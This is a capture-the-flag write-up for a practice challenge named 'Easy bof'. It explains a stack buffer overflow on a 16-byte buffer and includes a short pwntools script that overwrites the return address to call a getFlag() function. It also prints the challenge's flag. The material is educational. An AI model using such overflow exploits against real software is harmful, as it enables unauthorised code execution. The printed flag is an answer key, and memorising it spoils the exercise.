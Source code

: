 # Easy bof

### Description
This time, you cannot patch the binary and you 
need to exploit a vulnerability in the code.

Additionally, we do not provide the code but you can know that:
```c
char buff[16];
```

Try to use gdb and understand the behavior of the program

Also here, flag in clear but please report every step in the write-up!

## Solution
Considering the description, that gives us the dimensions of the buffer, we concur that we must perform a buffer overflow.

We can see that the buffer is 16 char wide and that there's a `getFlag()` function that we might want to execute, so the return address of `main()` must be overwritten with the address of `getFlag()`.

We can use gdb to see the dimensions of the stack in order to undestand how much "padding" to send to write the `getFlag()` address in the correct place, which is 24 bytes.

```python
import pwn

p = pwn.process("./easy_bof")
elf = pwn.ELF("./easy_bof")

p.sendline(b"A"*(16+24)+pwn.p64(elf.symbols["getFlag"]))
p.interactive()
```

### Flag
```plain
spritz{bof_for_fun_and_profit?}
```